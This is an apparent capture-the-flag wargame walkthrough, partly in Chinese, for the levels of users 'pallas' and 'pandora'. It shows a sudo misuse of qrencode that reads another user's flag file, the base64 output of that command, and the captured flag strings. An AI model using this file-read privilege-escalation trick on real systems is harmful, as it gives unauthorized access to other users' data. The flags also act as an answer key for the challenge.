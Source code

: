 ## User - pallas

### flag - 44

```plaintext
^irzKewMCfnhnIMTCJlW^
```

### 任务目标

```plaintext title="mission.txt"
User pandora likes squares.
```

### 行动

```plaintext title="ls -lah"
-rw-r--r-- 1 pallas pallas  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 pallas pallas 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 pallas pallas  807 Apr 23  2023 .profile
-rw-r----- 1 root   pallas   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root   pallas  145 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
pallas@hades:~$ sudo -u pandora /usr/bin/qrencode -r /pwned/pandora/flagz.txt -o /var/tmp/tesssssssst-pandora.txt; base64 /var/tmp/tesssssssst-pandora.txt
iVBORw0KGgoAAAANSUhEUgAAAGMAAABjAQMAAAC19SzWAAAABlBMVEUAAAD///+l2Z/dAAAAAnRS
TlP//8i138cAAAAJcEhZcwAACxIAAAsSAdLdfvwAAADtSURBVDiNzdQxjsQgDAVQIwp3kwsg5RrT
cSW4wLC5wOZKdFwDiQtAR4HWazQrbZqsU8xI6yoPyUr84wToWPCPVQE8DRVBSWo0fAef+EJSNM4a
lbj7gpD7LumBul0RDYfUfp/sVHO+ZPxh2jPNiiMcEjxTtRDSuvesJHHtHBuZIIn7bjgW0iQKS7Um
RD4Q1GL2vXzh2kR12tL6YfUuiSI8AG6Qg6hUZisvl6R6H7wCXIskroqcmd4k8bsNVFr6SfcPzX2x
HINRonhb79nB8w6CAhnA9ZI6OMiLqPn9lU80ong+h3pPtEl6/7/nFfoGYZyvP9kwcFcAAAAASUVO
RK5CYII=
# ^pjDuPNQVgyhgigOIiwm^
```

解码即可

## User - pandora

### flag -

```plaintext
^pjDuPNQVgyhgigOIiwm^
```

### 任务目标

```plaintext title="mission.txt"
User penelope lets us do something...
```

### 行动
